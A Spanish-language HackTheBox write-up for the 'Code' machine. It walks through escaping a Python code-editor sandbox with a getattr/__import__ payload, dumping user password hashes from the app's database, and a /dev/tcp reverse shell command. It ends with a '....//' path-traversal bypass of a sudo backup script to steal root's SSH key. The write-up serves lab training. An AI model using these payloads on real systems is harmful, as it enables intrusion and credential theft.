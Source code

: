 ```yaml
---
layout: post
title:  "Code - HackTheBox"
date:   2025-08-10
categories: [HTB]
tags: [HackTheBox, Python, directory-traversal]
image: "../assets/machines/HTB/HTB_Code/logo.png"
---
```

**Code** es una máquina Linux de nivel **EASY** que cuenta con una aplicación web <span class="color-text-teal">Python Code Editor </span>vulnerable a la <span class="color-text-salmon">**ejecución remota de código**</span> <span class="color-text-red">(RCE)</span> mediante la elusión de Python Jail.

Puedes jugar a la maquina dando [**CLICK AQUI**](https://www.hackthebox.com/machines/Code)

![](/assets/machines/HTB/HTB_Code/info.png)

# Enumeracion

Si usamos nmap para analizar los puertos abiertos del servicio:

`nmap -T5 <IP> -n -Pn`

![](/assets/machines/HTB/HTB_Code/1.png)

Encontraremos **2 servicios activos**: 

- El puerto 22, perteneciente a <span class="color-text-red">SSH</span>.

- El puerto 5000, perteneciente a una web que almacena un editor de Python en linea.

Si vamos al editor en linea, nos toparemos con:

![](/assets/machines/HTB/HTB_Code/2.png)

Pero nos vamos a topar con una sorpresa y es que **NO** podremos ejecutar ciertos comandos, debido a que existe una restriccion:

![](/assets/machines/HTB/HTB_Code/3.png)

Si ejecutamos:

`print(globals().keys())`

Obtendremos lo siguente:

![](/assets/machines/HTB/HTB_Code/4.png)

Nos toparemos con cosas interesantes, como que:

- Usan Flask

- Existe una base de datos y distintas rutas dentro del servicio web

## Metodo de intrusion #1

Vemos que tenemos una base de datos corriendo dentro del modulo, asi que usaremos: 

`help(user)`

Y obtendremos como respuesta:

![](/assets/machines/HTB/HTB_Code/5.png)

Por lo que usaremos SQLAlchemy ORM, y corremos el siguiente comando:

`print(db.session.query(User).all())`

Obteniendo como resultado:

![](/assets/machines/HTB/HTB_Code/6.png)

Entonces, vemos que existen 2 usuarios, por lo que ejecutaremos un bucle for para obtener la informacion, en este caso su nombre y contrasena:

![](/assets/machines/HTB/HTB_Code/7.png)

Vemos que obtenemos 2 hashes, pertenecientes al usuario <span class="color-text-red">**development**</span> y <span class="color-text-red">**martin**</span>.

Antes de pasarlas a crackear, quiero decir que estos **hashes** son cadenas de 32 caracteres, lo que puede ser un <span class="color-text-orange">**HASH-MD5**</span>.

![](/assets/machines/HTB/HTB_Code/8.png)

Vemos que obtenemos la contrasena para ambos usuarios, por lo que nos queda probarlas con el usuario martin en el puerto **SSH**.

![](/assets/machines/HTB/HTB_Code/9.png)

Y listo, ya estamos dentro.

## Metodo de intrusion #2 (Mas elaborado).

Del mismo modo que enumeramos las variables globales, podemos enumerar las fuciones **built-in** del servicio <span class="color-text-lime">Python</span>.

`print(dir(print.__self__))`

![](/assets/machines/HTB/HTB_Code/10.png)

Vemos varias funciones interesantes, pero la que nos llama la atencion es **getattr**

Entonces, recordemos que existe un bloqueo de ciertas palabras, como lo son <span class="color-text-salmon">import, os</span>.

Entonces, nosotros buscamos ejecutar comandos de la siguiente forma

{% highlight python %}
a = getattr(print.__self__, '__import__')('os')
getattr(a, 'system')('<COMANDO>')
{% endhighlight %}

![](/assets/machines/HTB/HTB_Code/11.png)

Por lo que queda adecuarlo al compilador, tratando de saltarnos la blacklist:

![](/assets/machines/HTB/HTB_Code/12.png)

Como podemos ver, podemos ejecutar comandos de forma remota, por lo que nos queda ejecutar una reverse shell:
{% highlight bash %}
bash -c "bash -i&>/dev/tcp/<IP>/PUERTO 0>&1"
{% endhighlight %}
![](/assets/machines/HTB/HTB_Code/13.png)

<span class="color-text-red">Por lo que ya hemos ganado acceso a la maquina.</span>

Y del mismo modo, podremos acceder a la base de datos y ver los hashes para romper:

![](/assets/machines/HTB/HTB_Code/14.png)

# Privesc

Una vez como el usuario <span class="color-text-red">martin</span>, enumeraremos permisos a nivel de sudoers y veremos:

![](/assets/machines/HTB/HTB_Code/15.png)

Entonces, si analizamos el siguiente archivo veremos que tiene el siguiente codigo:

{% highlight bash %}
#!/bin/bash

if [[ $# -ne 1 ]]; then
    /usr/bin/echo "Usage: $0 <task.json>"
    exit 1
fi

json_file="$1"

if [[ ! -f "$json_file" ]]; then
    /usr/bin/echo "Error: File '$json_file' not found."
    exit 1
fi

allowed_paths=("/var/" "/home/")

updated_json=$(/usr/bin/jq '.directories_to_archive |= map(gsub("\\.\\./"; ""))' "$json_file")

/usr/bin/echo "$updated_json" > "$json_file"

directories_to_archive=$(/usr/bin/echo "$updated_json" | /usr/bin/jq -r '.directories_to_archive[]')

is_allowed_path() {
    local path="$1"
    for allowed_path in "${allowed_paths[@]}"; do
        if [[ "$path" == $allowed_path* ]]; then
            return 0
        fi
    done
    return 1
}

for dir in $directories_to_archive; do
    if ! is_allowed_path "$dir"; then
        /usr/bin/echo "Error: $dir is not allowed. Only directories under /var/ and /home/ are allowed."
        exit 1
    fi
done

/usr/bin/backy "$json_file"
{% endhighlight %}

### Descubriendo la funcion vulnerable

Si analizamos el codigo, veremos que:

- Los paths "permitidos" son: **/home/** y **/var/**.

- La variable **updated_json** hace una evaluacion de caracteres especiales, especificamente el "**.** y **/**"

- Necesitaremos un archivo json.

Entonces, la via mas rapida de escapar a esta validacion es:

`En vez de hacer ../ -> ....//`

Si vemos dentro del home de **martin**, veremos que existe una carpeta llamada "**backups**".

![](/assets/machines/HTB/HTB_Code/16.png)

Lo que podemos adecuar, en este caso el parametro que nos interesa es el

`directories_to_archive`

Por lo que lo vamos a cambiar a una ruta que apunte al directorio **/root**

![](/assets/machines/HTB/HTB_Code/17.png)

Y ejecutaremos el comando con permisos de sudoers:

![](/assets/machines/HTB/HTB_Code/18.png)

Y bueno, adicionalmente tendremos una **id_rsa** dentro de la carpeta **.ssh**, por lo que podremos entrar como root:

![](/assets/machines/HTB/HTB_Code/19.png)

# FIN